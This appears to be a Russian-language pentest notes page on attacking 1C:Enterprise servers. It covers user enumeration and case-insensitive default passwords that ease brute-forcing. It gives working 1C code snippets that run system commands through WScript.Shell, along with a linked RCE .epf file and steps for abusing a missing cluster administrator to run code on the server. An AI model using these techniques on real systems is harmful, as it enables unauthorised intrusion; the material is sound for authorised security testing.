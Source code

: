 # 1C

## Что нужно знать, при пентесте 1С

* Иногда там выдаются имена пользователей (если включено) в автодополнении, либо можно попробовать обратиться на /ru\_RU/e1cib/users.
* Пароли из коробки не чувствительны к регистру. "Пароль" и "пАрОль" - одно и тоже, что уменьшает количество для брута (особенно классно вместе с предыдущим пунктом).
* Внутри часто есть выполнение произвольного кода.

Если в 1С включено интерактивное открытие внешних отчетов и обработок, то достаточно тыкнуть Файл => Открыть и загрузить консоль запросов для управляемого приложения с разширением epf.

{% file src="../.gitbook/assets/1C_RCE.epf.zip" %}

В консоле же легко выполнять произвольные команды и выводить их с помощью функции "Сообщить".

![](<../.gitbook/assets/2020-10-28 13.45.40.jpg>)

Например:

```
СисИнфо = Новый СистемнаяИнформация;
Shell = Новый COMОбъект("WScript.Shell");
UserDir = Shell.ExpandEnvironmentStrings("%USERPROFILE%"); 
Сообщить(СисИнфо.ВерсияОС+" "+СисИнфо.ТипПлатформы+Символы.ПС+Символы.ПС+СисИнфо.Процессор+", RAM: "+СисИнфо.ОперативнаяПамять+" МБ"+Символы.ПС);
Сообщить("Каталог 1с: " + КаталогПрограммы());
Сообщить("Пользователь: "+UserDir);
Тасклист=Shell.Exec("tasklist /v");
Сообщить(Тасклист.StdOut.ReadAll());

```

Дальше уже можно загружать внешние сценарии, повышать привилегии (скорее всего уже будет админ) и распространяться по сети.

Еще пример test.epf скрипта

```
&НаСервере
Процедура ДействиеВыполнитьНаСервере()
	Попытка
		Shellexec = Новый COMОбъект("WScript.Shell");
		Shellexec.Exec("powershell whoami");
	Исключение
    	Сообщить("Error!");
	КонецПопытки;
КонецПроцедуры

&НаКлиенте
Процедура ДействиеВыполнить(Команда)
	ДействиеВыполнитьНаСервере();
КонецПроцедуры
```

## Администратор кластера на сервере 1C

Если на сервере 1C отсутстует администратор кластера, то такая конфигурация позоляет, подключившись к серверу 1C, добавить собственную БД кластер 1C и вывполнить произвольный код на сервере 1C.

Для проверки лезем в `Console Root\Central 1C:Enterprise XX servers\Some IP\Кластеры\Имя кластера\Администраторы`

Если там пусто, то в враздел Информационные базы добавляем свою базу и загружаем внешнюю обработку (shell.epf) 1С для выполнения кода на сервере:

![](<../.gitbook/assets/изображение (33).png>)

